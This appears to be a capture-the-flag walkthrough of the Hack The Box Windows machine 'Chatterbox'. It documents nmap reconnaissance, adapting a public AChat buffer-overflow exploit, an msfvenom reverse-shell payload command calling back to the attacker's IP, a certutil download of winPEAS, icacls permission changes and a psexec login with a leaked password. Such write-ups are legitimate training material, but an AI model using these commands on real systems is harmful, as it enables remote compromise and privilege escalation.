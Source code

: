```yaml
---
title: "Chatterbox - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Chatterbox
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Chatterbox
![](https://kar0nx.github.io/assets/images/writeup/0d153f144af7b3b7213787c7e42df7d2.webp)

## Reconnaissance

IP: 10.10.10.74
### NMAP

```
nmap -T4 -A -p- 10.10.10.74
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 07:52 EST
Nmap scan report for 10.10.10.74
Host is up (0.032s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/7%OT=135%CT=1%CU=36666%PV=Y%DS=2%DC=T%G=Y%TM=67CA
OS:EC8C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%
OS:TS=7)SEQ(SP=104%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=104%GCD=2%
OS:ISR=106%TI=I%CI=I%II=I%SS=S%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M5
OS:3CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000
OS:%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%C
OS:C=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%
OS:T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=8
OS:0%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-07T17:54:00
|_  start_date: 2025-03-07T17:37:00
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-07T12:53:59-05:00
|_clock-skew: mean: 6h39m31s, deviation: 2h53m13s, median: 4h59m30s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   30.68 ms 10.10.14.1
2   30.86 ms 10.10.10.74

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.31 seconds
                                                                                 
```

Nmap shows some open port: 135 - rpc, 139, 445 - smb,  9255, 9256 - achat
Let's search for exploits for achat

```
searchsploit achat    
```

Remote Buffer Overflow
https://www.exploit-db.com/exploits/36025

## Gaining access

```
cp /usr/share/exploitdb/exploits/windows/remote/36025.py 3.py
```

let's adapt the exploit to our machine and make reverse shell

```
gedit 3.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307135919.png)

in terminal:

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

in gedit replace "buf" lines with "buf" output lines form msfvenom
also change udp socket to our target machine:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307142203.png)

set nc

```
nc -nvpl 443
```

and run script

```
python2 3.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307142419.png)

we have shell. Now grab first flag  

```
type c:/users/alfred/desktop/user.txt
```

## Privilege Escalation

For manual we can use checklist

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

or we can use winpeas to enumerate:

```
python3 http.server 80
```

```
certutil -urlcache -f http://10.10.14.15/winPEASany.exe win.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307152226.png)

Winpeas show interesting information that Alfred have full access in c:\users\administrator
so we can use command 'icacls' and grab root flag very fast.

```
c:\Users\Administrator\Desktop>icacls .\*
icacls .\*
.\desktop.ini NT AUTHORITY\SYSTEM:(I)(F)
              CHATTERBOX\Administrator:(I)(F)
              BUILTIN\Administrators:(I)(F)
              CHATTERBOX\Alfred:(I)(F)

.\root.txt CHATTERBOX\Administrator:(F)

Successfully processed 2 files; Failed processing 0 files

c:\Users\Administrator\Desktop>icacls root.txt /grant CHATTERBOX\Alfred:(F)
icacls root.txt /grant CHATTERBOX\Alfred:(F)
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
```

We have root flag but not privilege.
For privilege we can connect to administrator account using psexec.py form Impacket library

```
psexec.py administrator@10.10.10.74
	password - Welcome1!
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307153219.png)

And now we have root access.